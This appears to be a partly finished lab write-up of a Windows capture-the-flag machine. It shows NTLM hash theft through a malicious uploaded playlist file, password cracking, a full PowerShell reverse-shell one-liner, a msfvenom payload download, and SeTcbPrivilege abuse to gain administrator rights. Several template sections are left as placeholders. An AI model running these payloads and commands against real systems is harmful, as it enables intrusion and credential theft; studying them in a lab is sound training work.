

| Property         | Value                    |
| ---------------- | ------------------------ |
| **OS**           | Windows                  |
| **Difficulty**   | Medium                   |
| **Release Date** | 4th September, 2025      |
| **State**        | YYYY-MM-DD               |
| **IP**           | 10.10.10.X               |
| **Techniques**   | technique-1, technique-2 |
| **Tags**         | #web #privesc #linux     |

---
## Summary

Brief 2-3 sentence ogverview of the machine and attack path.

---
## Enumeration

### Nmap Scan

```
 nmap -sC -sV media.htb --open  
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-26 08:43 EDT
Nmap scan report for media.htb (10.129.234.67)
Host is up (0.031s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2026-09-26T12:43:44+00:00
|_ssl-date: 2026-09-26T12:43:53+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2026-09-25T12:26:41
|_Not valid after:  2027-03-27T12:26:41
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.74 seconds

```

### Service Enumeration

```
curl -I http://media.htb 
HTTP/1.1 200 OK
Date: Sat, 26 Sep 2026 13:40:56 GMT
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
X-Powered-By: PHP/8.1.17
Content-Type: text/html; charset=UTF-8

```

scrolling at the bottom of the page there is a file upload feature that allows to upload windows media player compatible files:



---
## Foothold

The file upload reference the responder server allowing to capture the ntlm hash of an user. (find article that explains and reference)

### Vulnerability

Description of the vulnerability exploited.

### Exploitation

poc used: https://github.com/Greenwolf/ntlm_theft.git 

```shell
git clone https://github.com/Greenwolf/ntlm_theft.git           
Cloning into 'ntlm_theft'...
remote: Enumerating objects: 179, done.
remote: Counting objects: 100% (49/49), done.
remote: Compressing objects: 100% (18/18), done.
remote: Total 179 (delta 41), reused 31 (delta 31), pack-reused 130 (from 1)
Receiving objects: 100% (179/179), 2.13 MiB | 3.18 MiB/s, done.
Resolving deltas: 100% (90/90), done.
                                                                 
```

Generating the payloads:

```
python3 ntlm_theft.py -g all -s 10.10.15.80 -f test
Created: test/test.scf (BROWSE TO FOLDER)
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Created: test/test.lnk (BROWSE TO FOLDER)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Created: test/test-(externalcell).xlsx (OPEN)
Created: test/test.wax (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: test/test.library-ms (BROWSE TO FOLDER)
Created: test/Autorun.inf (BROWSE TO FOLDER)
Created: test/desktop.ini (BROWSE TO FOLDER)
Created: test/test.theme (THEME TO INSTALL)
Created: test/test.bat (BROWSE TO FOLDER)
Generation Complete.

```

```
──(kali㉿kali)-[~/machines/media/ntlm_theft/test]
└─$ ls
 Autorun.inf                 test.htm                     'test-(remotetemplate).docx'
 desktop.ini                'test-(icon).url'              test.rtf
 test.application           'test-(includepicture).docx'   test.scf
 test.asx                    test.jnlp                    'test-(stylesheet).xml'
 test.bat                    test.library-ms               test.theme
'test-(externalcell).xlsx'   test.lnk                     'test-(url).url'
'test-(frameset).docx'       test.m3u                      test.wax
'test-(fulldocx).xml'        test.odt                      zoom-attack-instructions.txt
'test-(handler).htm'         test.pdf
                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/machines/media/ntlm_theft/test]
└─$ cat test.asx
<asx version="3.0">
   <title>Leak</title>
   <entry>
      <title></title>
      <ref href="file://10.10.15.80/leak/leak.wma"/>
   </entry>
</asx>                                                                                                                    

```

```
sudo responder -I tun0
```

uploading the file:
 img1

```
[+] Listening for events...                                                                                         

[SMB] NTLMv2-SSP Client   : 10.129.234.67
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : enox::MEDIA:39d3ee53b1945523:815747E53BD726D4DD787A4C34EF2A64:010100000000000080A572124B4EDD013753815B3269778B0000000002000800540043003700460001001E00570049004E002D0051005000310059005A0030003200510058004B00370004003400570049004E002D0051005000310059005A0030003200510058004B0037002E0054004300370046002E004C004F00430041004C000300140054004300370046002E004C004F00430041004C000500140054004300370046002E004C004F00430041004C000700080080A572124B4EDD0106000400020000000800300030000000000000000000000000300000DCC86B5D2ED14024EFB0540F9689EA58003D50C2E4F6F3F460CB5252F334B5470A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00380030000000000000000000                                                                                              
[*] Skipping previously captured hash for MEDIA\enox

```

cracking hash:

```
 hashcat -m 5600 enox.hash /usr/share/wordlists/rockyou.txt   
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-sandybridge-AMD Ryzen 7 5700G with Radeon Graphics, 1469/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (1431 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ENOX::MEDIA:39d3ee53b1945523:815747e53bd726d4dd787a4c34ef2a64:010100000000000080a572124b4edd013753815b3269778b0000000002000800540043003700460001001e00570049004e002d0051005000310059005a0030003200510058004b00370004003400570049004e002d0051005000310059005a0030003200510058004b0037002e0054004300370046002e004c004f00430041004c000300140054004300370046002e004c004f00430041004c000500140054004300370046002e004c004f00430041004c000700080080a572124b4edd0106000400020000000800300030000000000000000000000000300000dcc86b5d2ed14024efb0540f9689ea58003d50c2e4f6f3f460cb5252f334b5470a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310035002e00380030000000000000000000:1234virus@
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ENOX::MEDIA:39d3ee53b1945523:815747e53bd726d4dd787a...000000
Time.Started.....: Sun Sep 27 07:42:52 2026 (7 secs)
Time.Estimated...: Sun Sep 27 07:42:59 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  1786.1 kH/s (1.77ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 13340672/14344385 (93.00%)
Rejected.........: 0/13340672 (0.00%)
Restore.Point....: 13336576/14344385 (92.97%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 12359331 -> 12345yoyoy
Hardware.Mon.#01.: Util: 81%

Started: Sun Sep 27 07:42:51 2026
Stopped: Sun Sep 27 07:43:01 2026
                                                            
```

enox:1234virus@


### ssh access as enox

```
ssh enox@media.htb      
The authenticity of host 'media.htb (10.129.234.67)' can't be established.
ED25519 key fingerprint is: SHA256:2c17FslY2rzanEFkyjgpzSQoyVlsRgRFVJv+0dkFt8A
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'media.htb' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
enox@media.htb's password: 
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

enox@MEDIA C:\Users\enox>cd 

```


---
## User Flag

```
enox@MEDIA C:\Users\enox\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is EAD8-5D48

 Directory of C:\Users\enox\Desktop

10/02/2023  11:04 AM    <DIR>          .
10/02/2023  10:26 AM    <DIR>          ..
09/27/2026  03:22 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   9,997,946,880 bytes free

enox@MEDIA C:\Users\enox\Desktop>type user.txt
faeaca8e85a7a80cf5f07bd27f4538ec

enox@MEDIA C:\Users\enox\Desktop>

```

---
## Privilege Escalation

### Enumeration

```
enox@MEDIA c:\Users\enox>tree /f .
Folder PATH listing
Volume serial number is 00000291 EAD8:5D48
C:\USERS\ENOX
├───Desktop
│       type
│       user.txt
│       winpeas.exe
│
├───Documents
│       review.ps1
│
├───Downloads
├───Favorites
├───Links
├───Music
├───Pictures
├───Saved Games
└───Videos

```

```
enox@MEDIA c:\Users\enox>type Documents\review.ps1
function Get-Values {
    param (
        [Parameter(Mandatory = $true)]
        [ValidateScript({Test-Path -Path $_ -PathType Leaf})]
        [string]$FilePath
    )

    # Read the first line of the file
    $firstLine = Get-Content $FilePath -TotalCount 1

    # Extract the values from the first line
    if ($firstLine -match 'Filename: (.+), Random Variable: (.+)') {
        $filename = $Matches[1]
        $randomVariable = $Matches[2]

        # Create a custom object with the extracted values
        $repoValues = [PSCustomObject]@{
            FileName = $filename
            RandomVariable = $randomVariable
        }

        # Return the custom object
        return $repoValues
    }
    else {
        # Return $null if the pattern is not found
        return $null
    }
}

function UpdateTodo {
    param (
        [Parameter(Mandatory = $true)]
        [ValidateScript({Test-Path -Path $_ -PathType Leaf})]
        [string]$FilePath
    )

    # Create a .NET stream reader and writer
    $reader = [System.IO.StreamReader]::new($FilePath)
    $writer = [System.IO.StreamWriter]::new($FilePath + ".tmp")

    # Read the first line and ignore it
    $reader.ReadLine() | Out-Null

    # Copy the remaining lines to a temporary file
    while (-not $reader.EndOfStream) {
        $line = $reader.ReadLine()
        $writer.WriteLine($line)
    }

    # Close the reader and writer
    $reader.Close()
    $writer.Close()

    # Replace the original file with the temporary file
    Remove-Item $FilePath
    Rename-Item -Path ($FilePath + ".tmp") -NewName $FilePath
}

$todofile="C:\\Windows\\Tasks\\Uploads\\todo.txt"
$mediaPlayerPath = "C:\Program Files (x86)\Windows Media Player\wmplayer.exe"


while($True){

    if ((Get-Content -Path $todofile) -eq $null) {
        Write-Host "Todo is empty."
        Sleep 60 # Sleep for 60 seconds before rechecking
    }
    else {
        $result = Get-Values -FilePath $todofile
        $filename = $result.FileName
        $randomVariable = $result.RandomVariable
        Write-Host "FileName: $filename"
        Write-Host "Random Variable: $randomVariable"

        # Opening the File in Windows Media Player
        Start-Process -FilePath $mediaPlayerPath -ArgumentList "C:\Windows\Tasks\uploads\$randomVariable\$filename" 

        # Wait for 15 seconds
        Start-Sleep -Seconds 15

        $mediaPlayerProcess = Get-Process -Name "wmplayer" -ErrorAction SilentlyContinue
        if ($mediaPlayerProcess -ne $null) {
            Write-Host "Killing Windows Media Player process."
            Stop-Process -Name "wmplayer" -Force
        }

        # Task Done
        UpdateTodo -FilePath $todofile # Updating C:\Windows\Tasks\Uploads\todo.txt
        Sleep 15
    }

}
```

```
 Directory of C:\Windows\Tasks\Uploads

09/27/2026  04:36 AM    <DIR>          .
10/02/2023  11:04 AM    <DIR>          ..
09/27/2026  04:35 AM    <DIR>          3bc2e7342357992dc18d4c02f3fb48b7
09/27/2026  04:34 AM    <DIR>          ae9dc0285a79ec82ea1e2bfc009adf49
09/27/2026  03:50 AM    <DIR>          d41d8cd98f00b204e9800998ecf8427e
09/27/2026  04:36 AM                 0 todo.txt
               1 File(s)              0 bytes
               5 Dir(s)   9,983,541,248 bytes free

enox@MEDIA C:\Windows\Tasks\Uploads>type todo.txt

enox@MEDIA C:\Windows\Tasks\Uploads>cd 3bc2e7342357992dc18d4c02f3fb48b7

enox@MEDIA C:\Windows\Tasks\Uploads\3bc2e7342357992dc18d4c02f3fb48b7>dir
 Volume in drive C has no label.
 Volume Serial Number is EAD8-5D48

 Directory of C:\Windows\Tasks\Uploads\3bc2e7342357992dc18d4c02f3fb48b7

09/27/2026  04:35 AM    <DIR>          .
09/27/2026  04:36 AM    <DIR>          ..
09/27/2026  04:35 AM                56 test.wax
               1 File(s)             56 bytes
               2 Dir(s)   9,983,541,248 bytes free

enox@MEDIA C:\Windows\Tasks\Uploads\3bc2e7342357992dc18d4c02f3fb48b7>cd ..

enox@MEDIA C:\Windows\Tasks\Uploads>cd ae9dc0285a79ec82ea1e2bfc009adf49

enox@MEDIA C:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49>dir
 Volume in drive C has no label.
 Volume Serial Number is EAD8-5D48

 Directory of C:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49

09/27/2026  04:34 AM    <DIR>          .
09/27/2026  04:36 AM    <DIR>          ..
09/27/2026  04:34 AM               147 test.asx
               1 File(s)            147 bytes
               2 Dir(s)   9,983,541,248 bytes free

enox@MEDIA C:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49>
```

### Exploitation

uploading a webshell

img 2

```shell
Directory of c:\Windows\Tasks\Uploads

09/27/2026  05:41 AM    <DIR>          .
10/02/2023  11:04 AM    <DIR>          ..
09/27/2026  04:35 AM    <DIR>          3bc2e7342357992dc18d4c02f3fb48b7
09/27/2026  05:40 AM    <DIR>          ae9dc0285a79ec82ea1e2bfc009adf49
09/27/2026  03:50 AM    <DIR>          d41d8cd98f00b204e9800998ecf8427e
09/27/2026  05:41 AM                 0 todo.txt
               1 File(s)              0 bytes
               5 Dir(s)   9,982,480,384 bytes free

enox@MEDIA c:\Windows\Tasks\Uploads>tree /f .
Folder PATH listing
Volume serial number is 00000226 EAD8:5D48
C:\WINDOWS\TASKS\UPLOADS
│   todo.txt
│
├───3bc2e7342357992dc18d4c02f3fb48b7
│       test.wax
│
├───ae9dc0285a79ec82ea1e2bfc009adf49
│       test.asx
│       webshell.php
│
└───d41d8cd98f00b204e9800998ecf8427e
        poc.mp4


enox@MEDIA c:\Windows\Tasks\Uploads>

```

```
enox@MEDIA c:\Windows\Tasks\Uploads>del .\ae9dc0285a79ec82ea1e2bfc009adf49   
c:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49\*, Are you sure (Y/N)? y

```

error:

```
enox@MEDIA c:\Windows\Tasks\Uploads>cmd /c mklink /J C:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49 C:\xampp\htdocs
Cannot create a file when that file already exists.
```

```
enox@MEDIA c:\Windows\Tasks\Uploads>rmdir ae9dc0285a79ec82ea1e2bfc009adf49
```

```
enox@MEDIA c:\Windows\Tasks\Uploads>cmd /c mklink /J C:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49 C:\xampp\htdocs
Junction created for C:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49 <<===>> C:\xampp\htdocs
```

reuploading the shell using the file uploading feature:

img 3

reverse shell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.80',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
img4

```
nc -lvnp 9001                
listening on [any] 9001 ...
connect to [10.10.15.80] from (UNKNOWN) [10.129.234.67] 52864
whoami
nt authority\local service
PS C:\xampp\htdocs> 

```

### upgrading the shell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.80 LPORT=4445 -f exe -o update.exe 
python3 -m http.server 8001
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7680 bytes
Saved as: update.exe
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.129.234.67 - - [27/Sep/2026 09:13:37] "GET /update.exe HTTP/1.1" 200 -
10.129.234.67 - - [27/Sep/2026 09:15:19] "GET /update.exe HTTP/1.1" 200 
```

```
PS C:\tmp> powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.15.80:8001/update.exe','C:\tmp\update.exe')"
PS C:\tmp> dir


    Directory: C:\tmp


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         9/27/2026   6:15 AM           7680 update.exe                                                           


PS C:\tmp> .\update.exe
PS C:\tmp> 

```

```
 msfconsole -q          
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > dir
[*] exec: dir

CVE-2024-4577-PHP-RCE  enox.hash  ntlm_theft  update.exe
msf exploit(multi/handler) > options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


View the full module info with the info, or info -d command.

msf exploit(multi/handler) > set lhost tun0
lhost => 10.10.15.80
msf exploit(multi/handler) > set lport 4446
lport => 4446
msf exploit(multi/handler) > set lport 4445
lport => 4445
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.15.80:4445 
[*] Sending stage (230982 bytes) to 10.129.234.67
[*] Meterpreter session 1 opened (10.10.15.80:4445 -> 10.129.234.67:52867) at 2026-09-27 09:16:38 -0400

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
meterpreter > shell
Process 2604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\tmp>cd c:\ 
cd c:\

c:\>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID     
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                                                              Attributes                                        
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                                                       
Everyone                               Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-1488445330-856673777-1515413738-1380768593-2977925950-2228326386-886087428-2802422674   Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State   
============================= =================================== ========
SeTcbPrivilege                Act as part of the operating system Disabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled 
SeCreateGlobalPrivilege       Create global objects               Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set      Disabled
SeTimeZonePrivilege           Change the time zone                Disabled


c:\>

```

## setcbprivilege exploitation

poc: https://github.com/b4lisong/SeTcbPrivilege-Abuse

```
meterpreter > upload TcbElevation-x64.exe
[*] Uploading  : /home/kali/machines/media/SeTcbPrivilege-Abuse/TcbElevation-x64.exe -> TcbElevation-x64.exe
[*] Uploaded 12.50 KiB of 12.50 KiB (100.0%): /home/kali/machines/media/SeTcbPrivilege-Abuse/TcbElevation-x64.exe -> TcbElevation-x64.exe
[*] Completed  : /home/kali/machines/media/SeTcbPrivilege-Abuse/TcbElevation-x64.exe -> TcbElevation-x64.exe
meterpreter > shell
Process 756 created.
Channel 7 created.
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\tmp>.\tcb.exe "C:\Windows\system32\cmd.exe /c net localgroup administrators enox /add"
.\tcb.exe "C:\Windows\system32\cmd.exe /c net localgroup administrators enox /add"
[+] SeTcbPrivilege enabled
[+] AcquireCredentialsHandleW hooked
[+] Connected to service control manager
[+] Created service 'AAATcb' with command 'C:\Windows\system32\cmd.exe /c net localgroup administrators enox /add'.
[!] StartService returned an error, but the command should have been executed. Check it yourself! Error: The service did not respond to the start or control request in a timely fashion..
[+] Service deleted successfully.

C:\tmp>.\TcbElevation-x64.exe elevate 'net localgroup Administrators enox /add"
.\TcbElevation-x64.exe elevate 'net localgroup Administrators enox /add"
Error starting service 2

C:\tmp>net localgroup administrat
rnet localgroup administrat
System error 1376 has occurred.

The specified local group does not exist.


C:\tmp net localgroup administrators
 net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
enox
NT AUTHORITY\LOCAL SERVICE
The command completed successfully.


C:\tmp>cd c:\users\Administrator
cd c:\users\Administrator
Access is denied.

C:\tmp>

```

### Root flag

```
ssh enox@media.htb      
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
enox@media.htb's password: 


Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

enox@MEDIA C:\Users\enox>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                                     
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                                                

enox@MEDIA C:\Users\enox>cd c:\users    

enox@MEDIA c:\Users>cd administrator 

enox@MEDIA c:\Users\Administrator>r  
'r' is not recognized as an internal or external command,
operable program or batch file.

enox@MEDIA c:\Users\Administrator>cd Desktop

enox@MEDIA c:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is EAD8-5D48

 Directory of c:\Users\Administrator\Desktop

10/02/2023  11:04 AM    <DIR>          .
10/01/2023  11:48 PM    <DIR>          ..
09/27/2026  03:22 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   9,976,872,960 bytes free

enox@MEDIA c:\Users\Administrator\Desktop>type root.txt
7f174b2d3f5cdb5f1eb6e7cbe9e06ad7

enox@MEDIA c:\Users\Administrator\Desktop>


```

---
## Remediation

- Key takeaway 1
- Key takeaway 2
- Key takeaway 3

---
## References

- [Reference 1](https://github.com/momenbasel/htb-writeups/blob/main/templates/url)
- [Reference 2](https://github.com/momenbasel/htb-writeups/blob/main/templates/url)